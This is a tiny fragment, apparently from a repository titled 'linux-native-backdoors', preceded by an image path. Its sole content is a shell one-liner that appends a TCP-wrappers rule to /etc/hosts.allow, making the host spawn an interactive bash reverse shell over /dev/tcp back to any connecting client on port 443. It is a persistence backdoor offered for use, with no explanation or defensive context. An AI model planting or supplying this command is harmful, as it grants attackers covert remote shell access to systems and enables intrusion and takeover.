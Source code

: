 linux-native-backdoors
======================

echo 'ALL: ALL: spawn (bash -c "/bin/bash -i >& /dev/tcp/"%a"/443 0>&1") & :allow' >> /etc/hosts.allow

